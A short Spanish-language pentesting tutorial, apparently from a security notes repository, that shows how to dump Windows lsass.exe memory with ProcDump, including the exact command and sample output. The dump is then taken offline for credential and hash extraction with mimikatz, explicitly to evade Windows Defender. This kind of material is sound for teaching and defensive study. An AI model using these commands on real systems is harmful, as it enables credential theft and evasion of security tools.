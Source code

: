 # Procdump y lsass.exe

En esta parte vamos a ver algunas herramientas las cuales hacen el mismo funcionamiento que `mimikatz` pero sin ser detectado por el `Windows Defender` ya que `mimikatz` al ser una herramienta tan famosa, hay mas nivel de proteccion respecto a dicha herramienta.

Pero lo que podemos hacer es realizar un volcado de memoria de la maquina, y esto llevarlo a nuestro host, una vez estando en nuestro host, podremos utilizar `mimikatz` para extraer credenciales, `hashes`, etc...

El proceso que se encarga de gestionar el `logon` de los usuario en el sistema operativo, que administra estas contraseñas, estos `hashes`, etc... Es el proceso `lsass` por lo tanto vamos a intentar hacer un `dump` de la memoria que tiene este proceso que se esta ejecutando ahora mismo.

La herramienta que utilizaremos para esto sera la llamada `ProcDump` una herramienta oficial de `Windows`:

URL = [Documentacion de ProcDump](https://learn.microsoft.com/es-es/sysinternals/downloads/procdump)

URL = [Download ProcDump](https://download.sysinternals.com/files/Procdump.zip)

Abriremos un `cmd` como administrador (`Como si ya hubieramos comprometido la maquina siendo admins`) y nos iremos a la carpeta donde esta la herramienta `ProcDump`:

```cmd
cd C:\Users\user\Desktop\Procdump
```

Y ahora realizaremos el volcado del proceso `lsass.exe` de la siguiente forma:

```cmd
procdump64.exe -accepteula -ma lsass.exe lsass.dmp
```

Info:

```
ProcDump v11.0 - Sysinternals process dump utility
Copyright (C) 2009-2022 Mark Russinovich and Andrew Richards
Sysinternals - www.sysinternals.com

[10:38:44] Dump 1 initiated: C:\Users\d1se0\Desktop\Procdump\lsass.dmp
[10:38:44] Dump 1 writing: Estimated dump file size is 57 MB.
[10:38:45] Dump 1 complete: 57 MB written in 0.7 seconds
[10:38:45] Dump count reached.
```

Y con esto ya nos habria generado el fichero `lsass.dmp` el cual nos tendremos que llevar a nuestro `kali` para utilizar `mimikatz`.
